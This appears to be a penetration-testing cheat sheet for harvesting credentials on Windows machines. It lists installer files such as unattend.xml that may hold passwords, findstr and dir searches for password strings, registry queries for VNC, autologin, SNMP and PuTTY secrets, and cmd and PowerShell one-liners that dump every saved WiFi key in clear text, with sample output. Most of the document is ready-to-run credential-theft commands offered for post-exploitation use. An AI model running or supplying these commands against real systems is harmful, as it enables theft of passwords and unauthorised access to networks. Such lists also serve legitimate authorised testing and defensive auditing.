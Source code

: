 # Passwords In Files:
These are common files to find them in. They might be base64-encoded. So look out for that.

1. c:\sysprep.inf
2. c:\sysprep\sysprep.xml
3. c:\unattend.xml
4. %WINDIR%\Panther\Unattend\Unattended.xml
5. %WINDIR%\Panther\Unattended.xml


## clear text Passwords
### findstr /si password *.txt *.ini *.config *.xml
Look through output. most will help files, but you might get lucky and find an actual password file. 

## Find all those strings in config files.
### dir /s *pass* == *cred* == *vnc* == *.config*

## Find all passwords in all files.
### findstr /spin "password" *.*

## Other Searches
```
dir c:\*vnc.ini /s /b
```

```
dir c:\*ultravnc.ini /s /b 
```

```
dir c:\ /s /b | findstr /si *vnc.ini
```

#Passwords In Registry:
## VNC
```
reg query "HKCU\Software\ORL\WinVNC3\Password"
``

## Windows autologin
```
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
```

## SNMP Paramters
```
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
```

## Putty
```
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
```

## Search for password in registry
```
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```



# WiFi Passwords
## Grab all wifi passwords and format the output to be easy to read:
```
cls & echo. & for /f "tokens=4 delims=: " %a in ('netsh wlan show profiles ^| find "Profile "') do @echo off > nul & (netsh wlan show profiles name=%a key=clear | findstr "SSID Cipher Content" | find /v "Number" & echo.) & @echo on
```

### netsh wlan show profile

```
C:\>netsh wlan show profile

Profiles on interface Wi-Fi:

Group policy profiles (read only)
---------------------------------
    <None>

User profiles
-------------
    All User Profile     : NETGEAR59
```
### netsh wlan show profile name="NETWORK" key=clear
### netsh wlan show profile NETGEAR59 key=clear
```
C:\>netsh wlan show profile NETGEAR59 key=clear

Profile NETGEAR59 on interface Wi-Fi:
=======================================================================

Applied: All User Profile

Profile information
-------------------
    Version                : 1
    Type                   : Wireless LAN
    Name                   : NETGEAR59
    Control options        :
        Connection mode    : Connect automatically
        Network broadcast  : Connect only if this network is broadcasting
        AutoSwitch         : Do not switch to other networks
        MAC Randomization  : Disabled

Connectivity settings
---------------------
    Number of SSIDs        : 1
    SSID name              : "NETGEAR59"
    Network type           : Infrastructure
    Radio type             : [ Any Radio Type ]
    Vendor extension          : Not present

Security settings
-----------------
    Authentication         : WPA2-Personal
    Cipher                 : CCMP
    Authentication         : WPA2-Personal
    Cipher                 : GCMP
    Security key           : Present
    Key Content            : password123		<== Clear Text Password

Cost settings
-------------
    Cost                   : Unrestricted
    Congested              : No
    Approaching Data Limit : No
    Over Data Limit        : No
    Roaming                : No
    Cost Source            : Default
```


# Powershell Wifi Password Greb
## Grab all wifi passwords and format the output to be easy to read:
```
(netsh wlan show profiles) | Select-String "\:(.+)$" | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} | % {(netsh wlan show profile name="$name" key=clear)} | Select-String "Key Content\W+\:(.+)$" | %{$pass=$_.Matches.Groups[1].Value.Trim(); $_} | %{[PSCustomObject]@{ SSID=$name;PASSWORD=$pass }} | Format-Table -AutoSize
```







